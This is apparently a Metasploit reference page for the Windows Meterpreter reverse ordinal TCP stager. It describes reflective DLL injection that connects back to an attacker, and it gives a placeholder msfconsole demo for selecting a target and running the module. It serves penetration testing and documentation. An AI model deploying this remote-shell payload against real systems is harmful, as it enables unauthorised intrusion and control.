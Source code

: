 ## Windows Meterpreter (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged). Connect back to the attacker


## Module Name
payload/windows/meterpreter/reverse_ord_tcp

## Authors
* skape
* sf
* OJ Reeves
* spoonm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/meterpreter/reverse_ord_tcp
msf payload(reverse_ord_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ord_tcp) > set TARGET <target-id>
msf payload(reverse_ord_tcp) > show options
   ... show and set options ...
msf payload(reverse_ord_tcp) > run
```
    
    